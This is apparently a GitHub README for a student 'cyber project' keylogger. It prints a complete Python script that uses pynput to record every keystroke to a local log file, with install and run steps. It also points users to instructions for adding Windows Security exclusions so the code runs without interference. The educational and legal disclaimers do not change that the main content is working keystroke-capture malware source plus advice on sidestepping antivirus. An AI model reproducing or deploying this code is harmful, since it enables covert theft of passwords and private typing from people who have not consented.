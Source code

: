 # Keylogger

## Overview
A keylogger is a tool designed to monitor and record keystrokes on a computer or mobile device. This project captures and stores keyboard inputs for analysis and monitoring purposes. It can be used for ethical and authorized applications, such as monitoring personal devices or educational purposes. Misuse of this tool is strictly prohibited and can have serious legal consequences.

## Features
- **Keystroke Recording:** Logs all keystrokes entered on the device.
- **Log File Storage:** Stores recorded keystrokes in a log file named `keylogger.txt`.
- **Simple Implementation:** Uses the `pynput` library for handling keyboard events.

## Prerequisites
- **Programming Language:** Python 3.x
- **Libraries:** Ensure the following libraries are installed:
  - `pynput` (for keyboard event handling)
  - `logging` (for creating and managing log files)

To install the required Python libraries, use:
```bash
pip install pynput
```

## Installation
1. Clone the repository or copy the keylogger script to your local machine.
2. Save the script in the desired directory. For example:
   ```
   C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger
   ```

## Usage
1. **Setup Log Directory:**
   - Ensure the `log_dir` variable in the script points to the folder where the keylogger script is saved. For example:
     ```python
     log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
     ```
2. **Run the Script:**
   - Execute the script using Python:
     ```bash
     python keylogger.py
     ```
3. **Access Logs:**
   - After running the script, the keystrokes will be logged in a file named `keylogger.txt` in the specified directory.
4. **Stopping the Keylogger:**
   - Stop the script manually by interrupting the Python process (e.g., using `Ctrl + C` in the terminal).

## Script Code
Here is the provided keylogger script for reference:
```python
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"C:\Users\reeha\OneDrive\Desktop\Reeha\Cyber projects\Keylogger"
logging.basicConfig(filename=(log_dir + "keylogger.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Windows Security Exclusion Setup

This project involves running Python code on a Windows system. To ensure that the code runs without interference from Windows Security, follow the instructions in the `WINDOWS_SETUP.md` file to add exclusions in Windows Security.

### Setup Instructions

1. Follow the detailed setup steps in the `WINDOWS_SETUP.md` file to configure Windows Security.
2. Once the exclusions are added, you can run the Python code without security interference.

## Legal Disclaimer
This keylogger is provided for educational and ethical purposes only. You are responsible for ensuring compliance with all applicable laws and regulations when using this tool. Unauthorized use of keyloggers is illegal and may result in severe penalties, including imprisonment.

## License
This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Support
For issues or questions, please contact the project maintainer or open an issue in the repository.

